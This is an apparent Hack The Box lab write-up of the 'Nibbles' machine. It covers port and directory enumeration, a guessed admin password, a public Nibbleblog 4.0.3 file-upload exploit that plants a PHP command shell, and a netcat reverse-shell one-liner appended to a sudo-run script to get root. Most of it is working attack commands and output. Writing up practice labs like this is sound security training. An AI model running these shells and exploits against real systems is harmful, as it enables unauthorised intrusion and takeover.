








---
tags:
  - CVE-2015-6967
  - nibbleblog
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Nibbles
- Reference : https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html
- Solved : 2025.2.19. (Thu) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: SSH (22), HTTP (80).
    - **Web Enumeration**:
        - The main page had no significant content.
        - `gobuster` found `/nibbleblog/`, revealing a Nibbleblog CMS instance.
        - `/nibbleblog/content/private/users.xml` exposed the admin username.
        
2. **Web Exploitation**
    - **Admin Login**:
        - Tested weak credentials and found `admin:nibbles` as valid.
        - Identified CMS version as `Nibbleblog 4.0.3 "Coffee"`.
    - **Exploiting Arbitrary File Upload**:
        - Found `CVE-2015-6967` exploit allowing arbitrary PHP file uploads.
        - Used an exploit script to upload a PHP reverse shell.
        - Shell access gained as user `nibbler`.
        
3. **Privilege Escalation**
    - **Enumeration**:
        - Found a `personal.zip` file containing `monitor.sh`.
        - `sudo -l` revealed `monitor.sh` could be executed as root.
    - **Exploitation**:
        - Edited `monitor.sh` to execute a reverse shell.
        - Ran the script with `sudo`, successfully escalating to `root`.

### Key Techniques:

- **Directory Enumeration**: Discovered `/nibbleblog/` and `admin.php` via `gobuster`.
- **Weak Credential Testing**: Used a simple password to gain admin access.
- **Public Exploit Usage**: Leveraged `CVE-2015-6967` to upload a malicious PHP file.
- **Misconfigured `sudo` Permissions**: Exploited unrestricted script execution for privilege escalation.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.75
Performing quick port scan on 10.10.10.75...
Found open ports: 22,80
Performing detailed scan on 10.10.10.75...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 01:54 MST
Nmap scan report for 10.10.10.75
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.46 seconds
```

### http(80)



It looks nothing interesting..

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 22807 / 220561 (10.34%)
```

`gobuster` couldn't find any sub pages.



Instead, I found `/nibbleblog` from the page comment.

##### /nibbleblog



```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]  
```

By enumerating through the directories, I found `/nibbleblog/content/private/users.xml` contains admin username.



```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 301]
/index.php            (Status: 200) [Size: 2986]
/sitemap.php          (Status: 200) [Size: 401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 300]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]                 
```

There's `/admin.php` page which contains login function.



Since we know the username `admin`, we can try bruteforcing or easy passwords.
I tested the name of this box `nibbles` and it worked.





From the "Settings" menu, I found the CMS's version : `Nibblesblog 4.0.3 "Coffee"`.


# Shell as `nibbler`

### Exploit NibbleBlog 4.0.3 using Arbitrary File Upload Vulnerability

```bash
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ searchsploit nibbleblog 4.0.3
------------------------------------------ ---------------------------------
 Exploit Title                            |  Path
------------------------------------------ ---------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload  | php/remote/38489.rb
------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I searched if there's any exploit with the CMS version, and found one.
There's a manual exploit code as well on github : https://github.com/dix0nym/CVE-2015-6967

```bash
┌──(kali㉿kali)-[~/htb/CVE-2015-6967]
└─$ python exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload ../rshell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

I successfully uploaded php reverse shell payload.

Based on the code, it seems that the exploit uploads php file on `/content/private/plugins/my_iamge/image.php`.

```python
def execute_commands(target, username, password):
    payload = '<?php echo shell_exec($_GET["cmd"]); ?>'
    login(target, username, password)
    image_url = f"{target}/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image"
    exec_path = f"{target}/nibbleblog/content/private/plugins/my_image/image.php"
    try:
          req = SESSION.get(image_url, timeout=10, verify=False)
    except Exception as e:
        sys.exit("[-] Exception: {}".format(e))
```



I opened `image.php` after setting up a listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.75] 58364
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:57:57 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```


# Shell as `root`

### Enumeration

```bash
$ ls -al
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Feb 19 03:52 user.txt


$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

There's a zip file `personal.zip`.

I checked `sudo` permission, and found that `monitor.sh` can be run by root.

```bash
nibbler@Nibbles:/tmp$ sudo -l                                               
sudo -l                                                                     
Matching Defaults entries for nibbler on Nibbles:                           
    env_reset, mail_badpass,                                                
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                            

User nibbler may run the following commands on Nibbles:                     
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

### Edit script run by `root`

Let's edit this script first.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 9001 >/tmp/f' >> monitor.sh
```

Then, let's run this script after setting up a listener.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```

Then, the listener spawn a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.75] 36942
# id
uid=0(root) gid=0(root) groups=0(root)
```
